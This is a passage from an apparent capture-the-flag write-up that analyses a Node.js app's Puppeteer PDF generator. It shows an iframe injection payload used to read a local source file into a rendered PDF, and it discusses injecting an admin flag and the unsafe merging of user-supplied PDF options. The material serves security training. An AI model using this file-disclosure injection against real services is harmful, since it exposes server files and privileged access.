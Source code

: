 OK, so the `userData` JSON object will be parsed, and if the `isAdmin` property isn't `true`, we won't be granted access.

At this point we might think about how we could inject `isAdmin: true` into our user object 🤔

Another question we may consider; what happens if the JSON object cannot be parsed? 👀

Let's revisit the code from `/app/routes/index.js`. Specifically, the `generate-profile-card` POST request.

{% code overflow="wrap" %}
```js
router.post("/profile/generate-profile-card", requireAuth, async (req, res) => {
    const pdf = await generatePDF(req.userData, req.body.userOptions);
    res.contentType("application/pdf");
    res.send(pdf);
});
```
{% endcode %}

We already knew that our `userData` would be inserted to the PDF (that's how we were able to inject code), but what's this `userOptions` parameter? Let's go find out!

#### app/utils/generateProfileCard.js

{% code overflow="wrap" %}
```js
<iframe
    src="/app/utils/generateProfileCard.js"
    style="width: 999px; height: 999px"
></iframe>
```
{% endcode %}

We found this endpoint earlier when checking `/app/routes/index.js`.

{% code overflow="wrap" %}
```js
const puppeteer = require("puppeteer");
const fs = require("fs");
const path = require("path");
const { v4: uuidv4 } = require("uuid");
const Handlebars = require("handlebars");
const generatePDF = async (userData, userOptions) => {
    let templateData = fs.readFileSync(
        path.join(__dirname, "../views/print_profile.handlebars"),
        {
            encoding: "utf8",
        }
    );
    const template = Handlebars.compile(templateData);
    const html = template({ userData: userData });
    const filePath = path.join(__dirname, `../tmp/${uuidv4()}.html`);
    fs.writeFileSync(filePath, html);
    const browser = await puppeteer.launch({
        executablePath: "/usr/bin/google-chrome",
        args: ["--no-sandbox"],
    });
    const page = await browser.newPage();
    await page.goto(`file://${filePath}`, { waitUntil: "networkidle0" });
    await page.emulateMediaType("screen");
    let options = {
        format: "A5",
    };
    if (userOptions) {
        options = { ...options, ...userOptions };
    }
    const pdf = await page.pdf(options);
```
